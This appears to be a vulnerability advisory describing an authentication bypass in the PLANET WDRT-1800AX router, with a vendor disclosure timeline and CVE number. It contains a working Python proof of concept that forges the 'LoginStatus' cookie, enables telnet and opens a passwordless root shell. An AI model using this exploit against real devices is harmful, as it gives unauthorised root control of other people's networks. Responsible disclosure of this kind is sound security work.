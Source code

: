 # Planet Technologies WDRT-1800AX Authentication Bypass Vulnerability .

Affected Device: `WDRT-1800AX`

Affected Firmware: `v1.01-CP21`

Description:

```
The PLANET technologies 1800AX router runs a web service vulnerable to trivial authentication bypass.
The bypass can be combined with a telnet weakness leading to a root shell on the device. 
The router runs a minimal lighttpd binary to support a collection of JavaScript and html files which create requests to a 'cdata.cgi' binary.
This 32bit MIPS compiled binary supports the core functionality of the web service however uses a standard cookie to determine authenticated status. 
```

------

## Details

The WDRT-1800AX router from PLANET technologies uses a pre-set, boolean cookie for determining authentication to the web management pages. The cookie 'LoginStatus' is created when a user attempts to login to the login form hosted by a CGI binary running via Lighttpd.

![login](login.png)

By simply replacing `false` to `true`, a user can bypass the need to supply the password to the web form, and instead access all administration functions of the device, including but not limited to; password resets, configuration downloads and enabling telnet. 

Due to the router in its default configuration not having a password for the root user, when a user attempts to login to the telnet service as root, it simply supplies a session. 

![telnet](telnet.png)

With a basic proof of concept, any lan-adjacent attacker can gain root access to the device without needing the appropriate passwords to the service(s). An example can be found below to enable the telnet service and interact with it. 

```python
import requests, telnetlib, sys
host = sys.argv[1]
url = 'http://'+host+'/cgi-bin/cdata.cgi'

cookies = {'LoginStatus':'true'}

headers = {
   'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
   'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
}
# doesnt check if its already enabled, just tries to enable it. 
data = {
   'operation': 'DevManagement',
   'opt': 'telnet',
   'telnet': '1',
}

user = "root"
print("enabling telnet")

req = requests.post(url, headers=headers,data=data)

if req.text != '{ "err": 0 }':
   print("failed")

tn = telnetlib.Telnet(host, 23)
if (tn):
   print("connecting to session")
   tn.read_until(b"login: ")
   tn.write(user.encode('ascii') + b"\n")
   tn.interact()
```



![shell](shell.png)


### Disclosure 

13/2/23 - Issue identified, pocs created and reported via support page <br>
13/2/23 - Vendor reply asking for further information <br>
13/2/23 - Send python proof of concepts and expanded the explaination <br>
15/2/23 - Vendor reply confirming the behavior, estimating a fixed release in Q2 2023. <br>
07/04/23 - Vendor pushed updated firmware <br>
05/05/23 - Advisory released <br>
08/06/23 - Mitre assigns CVE-2023-33553

### Extra notes

When I was first looking into the web app running in QEMU, I figured that the option to change the language to English was broken since the management option was set but not rendering. This was until I realised that the English language JavaScript file wasn't ever being included in the pre-set html pages, renaming the `lang_en.js` to `lang_zh.js` and clearing browser cache allowed the page to render without having to translate everything manually. :) 



